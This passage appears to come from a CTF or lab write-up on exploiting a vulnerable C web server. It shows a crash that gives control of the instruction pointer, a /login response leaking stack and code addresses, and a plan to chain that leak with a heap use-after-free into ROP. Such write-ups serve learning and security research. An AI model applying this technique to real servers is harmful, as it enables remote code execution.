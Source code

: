```
Segmentation fault (core dumped)
```

Note that the output of the web server cannot be seen by the attacker. It is only 
for the purpose of making writing the exploit easier (not having to use GDB so much). 

Lets check if it really crashes when trying to call the address stored in 
`Authenticated->logout_handler`:
```
Program received signal SIGSEGV, Segmentation fault.
0x0000636363636363 in ?? ()
```

0x63 are the letter `cccc` from the query string.


### Information disclosure

Lets check what `/login` really returns:

```
$ wget localhost:8000/login 
$ hexdump -C login
00000000  4c 6f 67 69 6e 0d 0a 00  0a 00 00 00 00 00 00 00  |Login...........|
00000010  ff ff ff ff 00 00 00 00  50_d9_ff_ff_ff_7f 00 00  |........P.......|
00000020  04 00 00 00 00 00 00 00  00 bc b3 44 d1 76 c4 16  |...........D.v..|
00000030  40 cb 41 00 00 00 00 00  f2 08 00 00 04 00 00 00  |@.A.............|
00000040  e0_1d_40 00 00 00 00 00  c0_de_ff_ff_ff_7f 00 00  |..@.............|
00000050  40 cb 41 00 00 00 00 00  c1 61 40 00 00 00 00 00  |@.A......a@.....|
00000060  f8 ca 41 00 00 00 00 00  50_d4_ff_ff_ff_7f 00 00  |..A.....P.......|
00000070  b0_d2_ff_ff_ff_7f 00 00  00 00 00 00 00 00 00 00  |................|
00000080
```

GDB:
```
r12            0x401de0	4201952
r13            0x7fffffffdec0	140737488346816
```

The HTTP answer of the call to `/login` will contain the information from the 
variable `response`. It contains stack pointer (indicated by `0x7fffffff????` and
addresses of code (`0x40????`))


## Exploit

* Step 1: Leak data to gain base address of stack and code
* Step 2: Perform heap-uaf to call our own function pointer into ROP


## Finding the UAF

Compile it with address sanitizer: 
```
$ make webserver.sanitizer
$ ./webserver.sanitizer
```
